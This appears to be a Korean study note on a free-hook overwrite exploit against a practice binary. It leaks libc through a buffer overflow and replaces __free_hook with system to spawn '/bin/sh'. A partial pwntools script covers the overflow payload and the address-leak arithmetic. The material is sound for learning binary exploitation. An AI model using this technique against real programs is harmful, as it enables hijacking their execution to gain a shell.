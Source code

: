 1. libc_base 주소 확인
   - main 함수는 보통 `__libc_start_main` 함수에서 호출되고, `__libc_start_main` 함수의 메모리 주소는 `libc_base` 이다. 
   - main 함수의 스택 프레임을 확인하여 return address 를 추출한다. return address 는 __libc_start_main 함수의 어딘가를 가리킬 것이다. 
     - `gdb` 로 exploit 대상 프로그램을 로딩하고, `main` 함수에 break point 를 걸고, run 명령으로 프로그램을 실행시킨다. pwndbg 플러그인이 설치된 gdb라면 `bt` 명령으로 stack 상 `main` 함수의 return address 가 확인된다.
     - 이 return address 를 `x <주소>` 명령으로 확인하면 `__libc_start_main` + α (임의의 값) 으로 표시된 것을 확인 할 수 있다.
   - `readelf -s` 명령으로 libc 라이브러리에서 `__libc_start_main` 함수의 offset 을 확인한다.
   - 위에서 얻어낸 결과들로 아래 계산식을 통해 `libc_base` 의 주소를 얻어낸다. 
     - (`main` 함수의 return address) - (`__libc_start_main` 함수의 offset) - α = `libc_base`

2. `system` 함수와 `__free_hook` 함수를 치환한다.
   - `__free_hook` 함수를 실행하면 `system` 함수가 실행되도록 hook 함수 주소를 변경한다.

- 정리하자면
  - 조건: 
    1. buffer overflow가 발생한다.
    2. 프로그램의 바이너리가 필요하다.
    3. 프로그램에서 `free` 함수를 호출하고, `free` 함수의 인자를 표준 입력으로 받는다.
    4. 프로그램에서 임의 주소에 임의 값을 덮어쓴다.
       ```
       scanf("%llu", &value);
       *addr = value;
       ```
       - got 를 수정할 수 없기 때문에 ROP 와 비교했을 때 조건이 하나 더 추가된다.
    5. main 함수의 `stack frame` 의 `return address` 추출이 가능해야 한다.
       - `libc_base` 를 확인하는데 사용하므로, 다른 방법으로 대체 가능
    6. 프로그램에 사용된 libc 라이브러리가 필요하다.
  - 단계:
    1. 바이너리를 `gdb` 로 분석하여 `main` 함수가 `__libc_start_main` 함수의 몇 번째 라인에서 호출되는지 확인한다.
    2. 프로그램의 ELF 를 확인하여 프로그램을 실행시키고, buffer overflow로 main 함수의 stack frame 에서 return address 값을 출력시킨다. 
    3. 출력된 주소값으로 libc_base 를 구한다.
    4. libc_base 값으로 `system`, `__free_hok` 함수와 `"/bin/sh"` 문자열의 주소를 구한다.
    5. 조건 (4) 에 해당하는, '표준입력' 을 받는 코드에서 `__free_hook` 함수의 symbol 주소에 `system` 함수의 symbol 주소를 대입한다. 
    6. 프로그램에서 호출된 `free` 함수의 인자에 `"/bin/sh"` 문자열의 주소를 대입한다.

##### exploit 예시
```
from pwn import *

p = process('./fho')
e = ELF('./fho')
libc = ELF('./libc-2.27.so')

BUF_SIZE = 0x30

##########
# 1. leak memory of 'main' function
##########
payload = b'A' * (BUF_SIZE + 8 + 8 + 8) # BUFFER + other local variable + canary + SFP
p.sendafter('Buf: ', payload)

print(p.recvuntil(payload))  # payload 값 버리기
addr_main_return = u64(p.recvn(6).ljust(8,b'\x00'))  # main 함수의 stack frame 의 return 주소

##########
# 2. calculate offsets of '__libc_start_main' function
##########
# gdb 에서 확인 한 main 함수의 __libc_start_main 에서의 offset 은 231 이다
# 0x7ffff7a03c87 <__libc_start_main+231>:      mov    edi,eax

OFFSET_MAIN = 231 
ADDR_LIBC_START_MAIN = addr_main_return - OFFSET_MAIN  # __libc_start_main 함수의 주소

# readelf -s 명령으로 확인한 __libc_start_main 의 offset 은 0x021b10 였다.
# 2203: 0000000000021b10   446 FUNC    GLOBAL DEFAULT   13 __libc_start_main@@GLIBC_2.2.5
```